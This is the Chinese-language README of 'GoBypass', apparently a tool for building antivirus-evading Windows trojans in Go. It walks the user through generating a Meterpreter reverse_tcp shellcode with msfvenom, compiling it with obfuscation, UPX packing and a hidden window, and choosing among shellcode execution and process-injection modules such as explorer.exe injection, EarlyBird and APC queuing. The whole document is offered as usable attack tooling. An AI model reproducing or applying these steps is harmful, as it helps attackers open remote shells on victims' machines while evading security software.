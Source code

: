# GoBypass

### 

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

不懂二进制和免杀，只是搬运工，借鉴大佬的代码自己造轮子

![LOGO](/img/logo.png)

### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

（无需过多处理，内部会对ShellCode进行编码）

### 生成免杀马

在生成免杀马之前请注意以下三件事

1. 确保安装`Golang`且环境变量中包含`go`否则无法编译
2. 请在当前目录执行先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`

一切就绪后就可以开始生成了

示例：

1. 使用`CreateThread`模块并删除编译信息：`go run main.go -m CreateThread -d`
2. 删除编译信息且用`garble`混淆源码后编译：`go run main.go -m CreateThread -d -g`
3. 编译后的可执行文件进行`upx`加壳：`go run main.go -m CreateThread -d -g -u`

可选参数如下

| 参数  |                参数说明                 |  参数类型  | 是否必须 |
|:---:|:-----------------------------------:|:------:|:----:|
| -m  |                使用模块                 | string |  是   |
| -s  |    shellcode文件（默认shellcode.txt）     | string |  否   |
| -d  |         使用ldflags -s -w进行编译         |  bool  |  否   |
| -r  |     使用竞态检测器-race进行编译（可能提高免杀效果）      |  bool  |  否   |
| -w  | 隐藏窗口ldflags -H windowsgui（可能降低免杀效果） |  bool  |  否   |
| -u  |           最终生成的exe进行UPX加壳           |  bool  |  否   |
| -g  |        使用garble进行编译（对源码进行混淆）        |  bool  |  否   |
| -h  |               查看帮助信息                |  bool  |  否   |

其中必须的模块参数如下

| 模块名                      | 简介                                                              |
|:-------------------------|:----------------------------------------------------------------|
| CreateFiber              | 利用Windows CreateFiber函数执行ShellCode                              |
| CreateProcess            | 利用Windows CreateProcess函数在挂起状态下创建进程                             |
| CreateRemoteThread       | 利用Windows CreateRemoteThread函数在远程进程中执行ShellCode（注入explorer.exe） | 
| CreateRemoteThreadNative | 和上一条区别在于使用更底层的方式（注入explorer.exe）                                |
| CreateThread             | 利用Windows CreateThread函数执行ShellCode                             |
| CreateThreadNative       | 和上一条区别在于使用更底层的方式                                                |
| CryptProtectMemory       | 利用Windows dpapi.h CryptProtectMemory函数执行ShellCode               |
| CryptUnprotectMemory     | 利用Windows dpapi.h CryptUnprotectMemory函数执行ShellCode             |
| EarlyBird                | 注入的代码在进程主线程的入口点之前运行                                             |
| EtwpCreateEtwThread      | 利用Windows EtwpCreateEtwThread函数在进程中执行ShellCode                  |
| HeapAlloc                | 创建一个可供调用进程使用的堆并分配内存写入ShellCode                                  |
| NtQueueApcThreadEx       | 在当前进程的当前线程中创建一个特殊用户APC来执行ShellCode                              |
| RtlCreateUserThread      | 利用Windows RtlCreateUserThread函数执行ShellCode（注入explorer.exe）      |
| UuidFromStringA          | 利用Windows UuidFromStringA函数将ShellCode加载到内存地址并执行                 |

### 参考

尤其感谢`Safe6Sec`师傅的项目

- https://github.com/safe6Sec/GolangBypassAV
- https://github.com/Ne0nd0g/go-shellcode